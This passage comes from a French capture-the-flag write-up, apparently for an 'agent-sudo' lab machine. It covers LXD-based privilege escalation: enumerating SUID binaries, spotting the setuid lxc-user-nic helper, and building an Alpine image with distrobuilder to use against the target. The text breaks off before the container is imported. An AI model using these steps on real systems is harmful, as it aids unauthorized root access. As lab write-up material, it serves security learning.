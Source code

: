 Nous voilà en tant que root sur la machine.

​	<u>II. LXD</u>

En faisant un *find / -perm /4000 -user root 2>/dev/null* on peut voir que lxc peut être utilisé 	en tant que root.

```
james@agent-sudo:~$ find / -perm /4000 -user root 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/chsh
...
```

> ​	ll /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic 
>

```
james@agent-sudo:~$ ll /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic*
```

Pour pouvoir passer root sur la machine cible, il va falloir installer le conteneur alpine sur 	notre machine hôte.

```
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools

#Clone repo
go get -d -v github.com/lxc/distrobuilder

#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd

#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml

# If that fails, run it adding -o image.release=3.8 at the end.
```
